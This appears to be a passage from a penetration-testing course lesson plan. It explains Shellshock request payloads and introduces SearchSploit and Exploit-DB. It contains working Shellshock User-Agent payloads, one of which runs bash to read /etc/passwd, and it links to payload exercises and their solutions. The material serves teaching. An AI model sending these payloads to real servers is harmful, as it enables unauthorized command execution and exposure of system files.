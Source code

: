  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; echo "haxxed"
  Connection: keep-alive
  ```

Some malicious codes can open TCP connections back to your machine or show user passwords.

   - For example: 

   ```bash
   GET /index.html HTTP/1.1
   Host: example.com
   User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'
   Connection: keep-alive
   ```

Note the syntax. Shellshock payloads are often executed with the following template:

- `/bin/bash -c 'command'` runs the string `'command'` as a Bash command. This is different from passing a command directly because of how Bash handles the output. 

- Using `/bin/bash -c` helps preserve `stdout` more consistently.

Take a moment to address any remaining questions before proceeding.


### 02. Shellshock Payloads Activity

- [Activity File: Shellshock Payloads](activities/02_Shellshock_Payload/Unsolved/README.md)


### 03. Shellshock Payloads Activity 



- [Solution Guide: Shellshock Payloads](activities/02_Shellshock_Payload/Solved/README.md)


### 04.  SearchSploit (0:20)

In the previous activity we created a custom payload for Shellshock. In this section, we will explore tools that allow us to search for and find existing exploit information from libraries. 

Today we will use a tool called **SearchSploit** to locally store a library of exploit information on our Kali machine, as well as the scripts needed to execute the exploits. 

**Exploit Database (Exploit-DB)** is a popular online database that contains publicly disclosed exploits, cataloged according to their Common Vulnerability and Exposure (CVEs) identifier.
 
- For example, Oracle Global Desktop 4.61.915 is an exploit listed on the Exploit-DB website.

   ![Exploit-DB](Images/EXPLOIT_DB.png)

